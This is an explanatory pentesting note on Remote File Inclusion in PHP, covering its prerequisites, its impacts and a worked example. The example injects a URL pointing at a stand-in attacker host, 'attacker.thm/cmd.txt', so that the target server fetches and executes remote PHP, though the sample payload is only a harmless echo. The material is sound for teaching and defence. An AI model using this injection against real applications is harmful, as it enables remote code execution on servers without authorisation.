 ```yaml
---
title: Remote File Inclusion
---
```

_Remote File Inclusion_ is a technique to include remote files and into a vulnerable application. Like [[cybersecurity/knowledge/pentesting/LFI|Local File Inclusion]], the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. 

One requirement for RFI is that the `allow_url_fopen` option needs to be on.

  

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain [[Remote Command Execution (RCE)]] on the server. Other consequences of a successful RFI attack include:
-   Sensitive Information Disclosure
-   Cross-site Scripting ([[XSS]])
-   Denial of Service ([[DoS]])

An external server hosting malicious files must communicate with the application server for a successful RFI attack. The malicious file is injected into the `include` fn via HTTP requests, and the content of the malicious file executes on the vulnerable application server.  

## Example

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains PHP code:

```php
<?php echo "Hello World"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as 
```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

If there is no input validation, then the malicious URL passes into `include`. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.